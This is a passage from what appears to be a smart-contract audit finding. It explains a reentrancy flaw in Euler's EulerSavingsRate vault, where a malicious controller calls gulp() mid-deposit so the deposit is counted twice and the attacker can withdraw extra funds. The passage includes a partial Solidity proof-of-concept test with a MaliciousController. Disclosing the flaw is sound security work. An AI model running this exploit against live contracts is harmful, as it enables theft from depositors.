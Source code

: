 The reentrancy attack is made possible by the controller check. When a user deposits in the vault, the eSynth tokens are sent, and the controller check is done before the `totalAssetsDeposited` is updated. An attacker can set a malicious contract as controller, and during the call to it, the controller could call the [`gulp()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L130-L130) function.

This function determines how much interest is available to be distributed; it uses the eSynth balance of the contract and subtracts the internal balance from it. However, since the internal balance `totalAssetsDeposited` hasn't been updated yet during the malicious controller's reentrancy, the function will assume that the balance deposited by the attacker can be distributed as interest to depositors over the next two weeks.

The vault then saves the deposited amount twice into the accounting system, once inside the `totalAssetsDeposited` and once as interest to be distributed that will be returned over time by [`interestAccrued()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L59-L59).

The attacker can do this attack and withdraw more than the deposit as soon as one block later; the longer he waits, the more tokens he will earn.
Additionally, since the price per share is modified if the EulerSavingsRate is used as collateral on an Euler lending market, the attacker could borrow more than he should.

#### Proof of concept

In the following test, `user2` executes the attack, waits one week, and then withdraws.
It can be copy pasted inside [ESynthGeneralTest.sol](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/test/unit/esynth/ESynthGeneral.t.sol#L11-L11).

```solidity
function test_depositGetInterest() public {
        uint256 amount = 500 ether;
        esynth.setCapacity(address(this), MAX_ALLOWED);
        esynth.mint(user1, amount);
        esynth.mint(user2, amount);

        EulerSavingsRate savings = new EulerSavingsRate(evc, address(esynth), "ESYNTH SAVING", "ESAVE");
        MaliciousController mc = new MaliciousController(address(savings));

        //user 1 deposit his synth in the saving vault
        vm.startPrank(user1);
        esynth.approve(address(savings), type(uint256).max);
        uint shares = savings.deposit(amount, user1);
        vm.stopPrank();

        //user 2 deposit his synth in the saving vault
        vm.startPrank(user2);
        //set malicious controller
        evc.enableController(user2, address(mc));
        mc.setGulpNextCall();
        //deposit
        esynth.approve(address(savings), type(uint256).max);
        uint shares2 = savings.deposit(amount, user2);
        vm.stopPrank();

        emit log_uint(shares);
        emit log_uint(shares2);

        skip(1 weeks);

        vm.prank(user2);
        uint received = savings.redeem(shares2, user2, user2);
        emit log("User 2 (malicious) received");
        emit log_uint(received);

        vm.startPrank(user1);
```